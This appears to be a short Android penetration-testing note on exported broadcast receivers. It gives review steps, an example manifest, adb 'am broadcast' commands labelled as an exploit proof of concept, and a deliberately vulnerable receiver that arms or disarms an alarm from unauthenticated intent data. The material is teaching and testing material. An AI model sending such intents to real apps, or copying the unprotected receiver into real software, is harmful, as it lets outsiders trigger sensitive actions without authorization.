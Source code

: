 **Testing**:

1. Review `AndroidManifest.xml` for `android:exported="true"`.
2. Inspect the `onReceive` method for sensitive data or actions.
3. Search for dynamically registered receivers in code using `registerReceiver()`.

*   Example **AndroidManifest.xml**:

    ```xml
    <receiver android:exported="true" android:name=".myBroadcastReceiver">
        <intent-filter>
            <action android:name="com.apphacking.broadcastreceiver.alarmState" />
        </intent-filter>
    </receiver>
    ```

**Exploit POC**:

1.  **ADB Commands**:

    ```bash
    am broadcast -a <action-name> --es <key> <value>
    am broadcast -a com.apphacking.broadcastreceiver.alarmState --es "status" "arm"
    ```
2.  **Java Code**:

    ```java
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        txtView = findViewById(R.id.textView);
        imageView = findViewById(R.id.imageView);

        registerReceiver(alarmSystemReceiver, new IntentFilter("com.apphacking.broadcastreceiver.alarmState"));
    }

    private BroadcastReceiver alarmSystemReceiver = new BroadcastReceiver() {
        @Override
        public void onReceive(Context context, Intent intent) {
            String alarmState = "";

            alarmState = intent.getStringExtra("status"); // status

            if (alarmState.equals("arm")) {
                // activate the alarm system
                txtView.setText("armed");
                imageView.setImageResource(R.drawable.lockclosed);
                Log.d("Alarm-State", "Alarm system armed!");
                return;
            }

            if (alarmState.equals("disarm")) {
                // deactivate the alarm system
                txtView.setText("disarmed");
                imageView.setImageResource(R.drawable.lockopen);
                Log.d("Alarm-State", "Alarm system disarmed!");
            }
        }
    };
    ```
